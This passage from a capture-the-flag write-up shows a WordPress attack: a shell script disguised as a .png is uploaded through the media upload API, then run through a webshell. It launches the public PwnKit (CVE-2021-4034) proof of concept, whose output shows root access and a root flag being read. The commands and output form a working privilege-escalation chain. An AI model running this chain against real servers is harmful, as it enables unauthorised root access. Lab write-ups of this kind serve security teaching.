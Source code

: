 

The file type seems like a `type` issue, so I'll change it to something
I probably can upload, `image/png`, but I get the same error. I'll try
changing the file extension to `.png`, and it works:



    >>> data = { 'name': 'pkwner.png', 'bits': script, 'type': 'text/plain' }
    >>> client.call(media.UploadFile(data))
    {'attachment_id': '48', 'date_created_gmt': <DateTime '20220201T23:14:24' at 0x7f25f8bb9a60>, 'parent': 0, 'link': '/wp-content/uploads/2022/02/pkwner.png', 'title': 'pkwner.png', 'caption': '', 'description': '', 'metadata': False, 'type': 'text/plain', 'thumbnail': '/wp-content/uploads/2022/02/pkwner.png', 'id': '48', 'file': 'pkwner.png', 'url': '/wp-content/uploads/2022/02/pkwner.png'}



It's even nice enough to give me the full path!

#### POC Success

I can just call `bash` on that file (even with the `.png` extension,
though I could also move it with the webshell), and it works:



    oxdf@hacky$ ./webshell.sh 'bash /var/www.md/wp-content/uploads/2022/02/pkwner.png'
    ██████╗ ██╗  ██╗██╗    ██╗███╗   ██╗███████╗██████╗ 
    ██╔══██╗██║ ██╔╝██║    ██║████╗  ██║██╔════╝██╔══██╗
    ██████╔╝█████╔╝ ██║ █╗ ██║██╔██╗ ██║█████╗  ██████╔╝
    ██╔═══╝ ██╔═██╗ ██║███╗██║██║╚██╗██║██╔══╝  ██╔══██╗
    ██║     ██║  ██╗╚███╔███╔╝██║ ╚████║███████╗██║  ██║
    ╚═╝     ╚═╝  ╚═╝ ╚══╝╚══╝ ╚═╝  ╚═══╝╚══════╝╚═╝  ╚═╝
    CVE-2021-4034 PoC by Kim Schulz
    [+] Setting up environment&#8230;
    [+] Build offensive gconv shared module&#8230;
    [+] Build mini executor&#8230;
    uid=0(root) gid=0(root) groups=0(root),33(www-data)
    hello[+] Nice Job



Because it prints out `uid=0`, that shows it ran as root.

#### Get Flag

I can remove the image from the server (with the webshell) change the
last line in my local copy to `cat /root/root.txt`, upload it again, and
run it to get the flag:



    oxdf@hacky$ ./webshell.sh 'bash /var/www.md/wp-content/uploads/2022/02/pkwner.png'
    ██████╗ ██╗  ██╗██╗    ██╗███╗   ██╗███████╗██████╗ 
    ██╔══██╗██║ ██╔╝██║    ██║████╗  ██║██╔════╝██╔══██╗
    ██████╔╝█████╔╝ ██║ █╗ ██║██╔██╗ ██║█████╗  ██████╔╝
    ██╔═══╝ ██╔═██╗ ██║███╗██║██║╚██╗██║██╔══╝  ██╔══██╗
    ██║     ██║  ██╗╚███╔███╔╝██║ ╚████║███████╗██║  ██║
    ╚═╝     ╚═╝  ╚═╝ ╚══╝╚══╝ ╚═╝  ╚═══╝╚══════╝╚═╝  ╚═╝
    CVE-2021-4034 PoC by Kim Schulz
    [+] Setting up environment&#8230;
    [+] Build offensive gconv shared module&#8230;
    [+] Build mini executor&#8230;
    8620df0d9701b220a6fcbc207fca5cc1
    hello[+] Nice Job

